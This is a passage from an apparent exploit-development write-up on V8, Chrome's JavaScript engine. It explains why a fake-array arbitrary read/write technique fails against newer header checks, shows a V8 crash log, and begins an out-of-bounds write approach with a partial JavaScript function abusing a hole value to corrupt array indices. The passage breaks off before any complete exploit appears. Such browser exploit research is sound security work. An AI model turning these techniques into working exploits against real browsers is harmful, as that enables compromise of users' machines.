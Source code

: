 Clearly, at some point, this worked, because I found a [bunch](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/#gaining-code-execution) [of](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/#getting-arbitrary-read--write) [writeups](https://seb-sec.github.io/2020/09/28/ductf2020-pwn-or-web.html#---arbitrary-readwrite-within-v8-heap) all using the same technique. Unfortunately, this did not work for me, and was in fact the source of the error I had encountered during my first run. Here it is again:

```
# Fatal error in ../../src/objects/object-type.cc, line 81
# Type cast failed in CAST(LoadFromObject(MachineTypeOf<T>::value, reference.object, offset)) at ../../src/codegen/code-stub-assembler.h:1342
  Expected FixedArrayBase but found 0x3ea1003ca761: [JSArray] in OldSpace
(...)
```

Clearly, this means that V8 has wisened up to our tricks, and additionally checks for a valid `FixedArrayBase` header (i.e. the map + length fields) when it resolves the `elements` pointer. That means that we must make sure that the `elements` pointer points to something that at least resembles a `FixedArrayBase` header.

No arbitrary read/write using this technique for you!

### OOB write

Our goal is clear - we want to be able to fake not just a valid array metadata structure, but also a valid array element header structure, too. 

After some pondering, I settled on the following arrays:

```javascript
function leak_stuff(b) {
	if (b) 
	{
		let index = Number(b ? the.hole : -1);
		index |= 0;
		index += 1;

		let arr1 = [1.1, 2.2, 3.3, 4.4];
		let arr2 = [5.5, 6.6, 7.7, 8.8];
		let arr3 = [arr1, arr2];

		// ...
	}
}
```

Or in memory:
